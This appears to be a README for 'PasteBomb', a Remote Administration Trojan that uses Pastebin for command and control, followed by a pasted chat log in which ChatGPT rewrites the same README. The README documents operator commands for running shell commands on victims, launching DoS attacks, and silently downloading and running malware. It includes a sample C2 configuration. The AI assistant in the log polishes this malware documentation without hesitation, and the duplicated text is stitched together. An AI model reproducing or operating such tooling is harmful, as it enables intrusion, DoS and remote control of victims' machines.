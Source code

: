 # PasteBomb

PasteBomb is a simple, yet powerful, Remote Administration Trojan (RAT) that allows you to execute terminal commands, send (D)DoS attacks, download files, and open messages in your victim's browser. Without requiring a traditional Command-and-Control (C2) server, PasteBomb utilizes a Pastebin service for communication.

**Important**: PasteBomb is still in version 0.01. It is not meant for penetration testing at this stage but serves as a demonstration of a RAT that uses Pastebin as a C2 server.

## Usage

### Commands

- `cmd`: Execute terminal commands on the victim's machine.
    - **Usage**: 
      ```plaintext
      cmd <your command here>
      ```
      
- `dos`: Send a (D)DoS attack to the target.
    - **Usage**: 
      ```plaintext
      dos <IP/domain> <port> <duration>
      ```
      Example:
      ```plaintext
      dos 192.168.1.1 80 60
      ```
      This will target IP `192.168.1.1` on port `80` for 60 seconds.

- `download`: Download files to the victim's computer with optional arguments to `RUN` and `HIDE` the file.
    - **Usage**: 
      ```plaintext
      download <direct download link> <destination path> <args (RUN, HIDE)>
      ```
      Example:
      ```plaintext
      download http://example.com/malware.exe C:\Users\Victim\malware.exe RUN,HIDE
      ```
      This will download and run a file while hiding it.

- `popmsg`: Open a pop-up message in the victim's browser.
    - **Usage**: 
      ```plaintext
      popmsg <message>
      ```
      Example:
      ```plaintext
      popmsg "Your system has been compromised!"
      ```
      This will show a message to the victim.

### Config

The configuration for PasteBomb is defined in JSON format. The configuration contains one required parameter (`url`) and one optional (`backups`).

- `url`: The URL of the main pastebin link (required).
- `backups`: A list of backup pastes that can be used to fetch commands (optional).

#### Example Config:
```json
{
    "url": "http://yourpastebinservice.com/command",
    "backups": [
        "http://yourpastebinservice.com/command2",
        "http://yourpastebinservice.com/command3"
    ]
}
OS Support
PasteBomb currently supports the following operating systems:

macOS (Darwin)
Windows
Linux
It can be built and executed on these platforms with no major issues.

License
This project is licensed under the custom terms as stated in the LICENSE file of this repository. The software is provided "as is", for educational and research purposes only.

Please refer to the LICENSE file for the full terms and conditions.

css
Copy code

This now includes a detailed **OS Support** section under the **Usage** section, listing the operating systems that **PasteBomb** supports.





You said:
can you understant it make that os support content and that lincense part content come in that readme file 
ChatGPT said:
ChatGPT
Sure! Here's the PasteBomb README file with the OS Support and License sections properly included at the end of the file:

markdown
Copy code
# PasteBomb

PasteBomb is a simple, yet powerful, Remote Administration Trojan (RAT) that allows you to execute terminal commands, send (D)DoS attacks, download files, and open messages in your victim's browser. Without requiring a traditional Command-and-Control (C2) server, PasteBomb utilizes a Pastebin service for communication.

**Important**: PasteBomb is still in version 0.01. It is not meant for penetration testing at this stage but serves as a demonstration of a RAT that uses Pastebin as a C2 server.

## Usage

### Commands

- `cmd`: Execute terminal commands on the victim's machine.
    - **Usage**: 
      ```plaintext
      cmd <your command here>
      ```
      
- `dos`: Send a (D)DoS attack to the target.
    - **Usage**: 
      ```plaintext
      dos <IP/domain> <port> <duration>
      ```
      Example:
      ```plaintext
      dos 192.168.1.1 80 60
      ```
      This will target IP `192.168.1.1` on port `80` for 60 seconds.

- `download`: Download files to the victim's computer with optional arguments to `RUN` and `HIDE` the file.
    - **Usage**: 
      ```plaintext
      download <direct download link> <destination path> <args (RUN, HIDE)>
      ```
      Example:
      ```plaintext
      download http://example.com/malware.exe C:\Users\Victim\malware.exe RUN,HIDE
      ```
      This will download and run a file while hiding it.

- `popmsg`: Open a pop-up message in the victim's browser.
    - **Usage**: 
      ```plaintext
      popmsg <message>
      ```
      Example:
      ```plaintext
      popmsg "Your system has been compromised!"
      ```
      This will show a message to the victim.

### Config

The configuration for PasteBomb is defined in JSON format. The configuration contains one required parameter (`url`) and one optional (`backups`).

- `url`: The URL of the main pastebin link (required).
- `backups`: A list of backup pastes that can be used to fetch commands (optional).

#### Example Config:
```json
{
    "url": "http://yourpastebinservice.com/command",
    "backups": [
        "http://yourpastebinservice.com/command2",
        "http://yourpastebinservice.com/command3"
    ]
}
OS Support
PasteBomb currently supports the following operating systems:

macOS (Darwin)
Windows
Linux
It can be built and executed on these platforms with no major issues.

License
This project is licensed under the custom terms as stated in the LICENSE file of this repository. The software is provided "as is", for educational and research purposes only.

Please refer to the LICENSE file for the full terms and conditions.
